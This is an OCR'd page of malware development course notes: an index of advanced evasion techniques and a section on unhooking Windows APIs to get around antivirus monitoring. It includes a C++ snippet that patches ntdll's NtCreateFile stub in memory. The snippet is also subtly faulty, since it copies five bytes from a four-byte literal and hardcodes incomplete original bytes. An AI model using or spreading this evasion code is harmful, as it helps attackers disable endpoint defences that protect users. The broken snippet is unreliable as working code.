 # Index 
- [[Malware Development]]
	- [[7. Advanced Techniques]]
		- [[7.1 Code Reuse (API Unhooking and Windows Code Reuse)]]
		- [[7.2 Syscall Usage (Direct System Calls)]]
		- [[7.3 In-memory Execution (Reflective DLL Injection)]]
		- [[7.4 In-memory Execution of Shellcode (Payload Execution)]]
		- [[7.5 Reflective DLL Injection]]
		- [[7.6 Evading Dynamic Analysis (Anti-VM and Anti-Sandbox Techniques)]]

# Code Reuse (API Unhooking and Windows Code Reuse)

AV solutions often hook Windows APIs to monitor and block malicious activities. To evade this, you can:
- Unhook APIs: Some AVs monitor functions like `CreateProcess`, `WriteProcessMemory`, or `VirtualAllocEx` to detect malicious behavior. You can "unhook" these functions by either restoring the original function pointers or using alternative APIs to achieve the same goal.
  
  Steps to Implement API Unhooking:
  - Retrieve the base address of the DLL (e.g., `kernel32.dll` or `ntdll.dll`) using `GetModuleHandle`.
  - Find the original function pointer for the API function in the DLL export table.
  - Overwrite the hooked function by copying back the original bytes.
  
  Here’s a simplified example of how to restore a hooked function:

  ```cpp
  #include <windows.h>
  
  void UnhookAPI() {
      // Get handle to the NTDLL module
      HMODULE hNtdll = GetModuleHandle(L"ntdll.dll");

      if (hNtdll) {
          // Get the address of the target function (e.g., NtCreateFile)
          void* pFunction = GetProcAddress(hNtdll, "NtCreateFile");
          
          if (pFunction) {
              // You would typically copy back the original bytes of the function here
              // which have been replaced by a hook
              // In this example, we're simplifying the restoration process.
              
              // Example: Restoring original bytes (you would need to know the original bytes)
              DWORD oldProtect;
              VirtualProtect(pFunction, 5, PAGE_EXECUTE_READWRITE, &oldProtect);
              // Restore original bytes of the function
              memcpy(pFunction, "\x4C\x8B\xD1\xB8", 5);
              VirtualProtect(pFunction, 5, oldProtect, &oldProtect);
          }
      }
  }
  ```
